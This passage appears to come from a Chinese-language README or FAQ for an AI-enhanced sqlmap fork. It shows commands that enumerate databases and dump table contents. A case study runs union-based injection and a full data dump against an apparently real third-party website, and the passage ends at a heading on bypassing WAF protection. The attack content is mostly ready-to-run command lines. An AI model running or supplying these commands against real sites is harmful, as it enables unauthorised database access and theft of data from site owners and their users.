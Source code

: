 **Q: 如何查看目标的数据库?**

A: 使用 `--dbs` 参数列出所有可用的数据库:
```bash
python -m ai_module autoinject "http://example.com/page.php?id=1" --dbms mysql --dbs
```
这将显示目标系统上的所有可用数据库。

**Q: 如何提取数据库内容?**

A: 使用 `--dump` 参数自动提取数据库表内容:
```bash
python -m ai_module autoinject "http://example.com/page.php?id=1" --dbms mysql --dump
```
这将自动扫描数据库，提取表结构和表内容。

**Q: 如何处理真实服务器不可用的情况?**

A: 如果真实的目标服务器不可用或无法连接:
1. 检查URL是否正确
2. 确认目标服务器是否在线
3. 检查网络连接是否正常
4. 尝试使用本地测试环境

**Q: 如何在没有网络的环境中使用？**

A: AI模块默认需要网络连接以访问API服务，但您可以：
- 使用本地部署的模型（需额外配置）
- 启用离线模式，使用内置的基础分析规则

## 具体使用案例

### 案例1：对特定数据库的高级注入

以MySQL数据库为例，进行深度注入测试：

```bash
# 步骤1：初始扫描
python sqlmap.py -u "http://jjbearings.com/userabout.php?id=1" --dbms=mysql --ai-analysis

# 步骤2：使用智能payload
python sqlmap.py -u "http://jjbearings.com/userabout.php?id=1" --dbms=mysql --smart-payload --technique=U

# 步骤3：获取详细解释并建议修复方案
python sqlmap.py -u "http://jjbearings.com/userabout.php?id=1" --dbms=mysql --ai-analysis --explain-vuln --suggest-fix

# 步骤4：使用简化版自动注入功能 (新增)
python -m ai_module autoinject "http://jjbearings.com/userabout.php?id=1" --dbms mysql --dump
```

### 案例2：绕过WAF保护的网站

针对有WAF保护的目标：
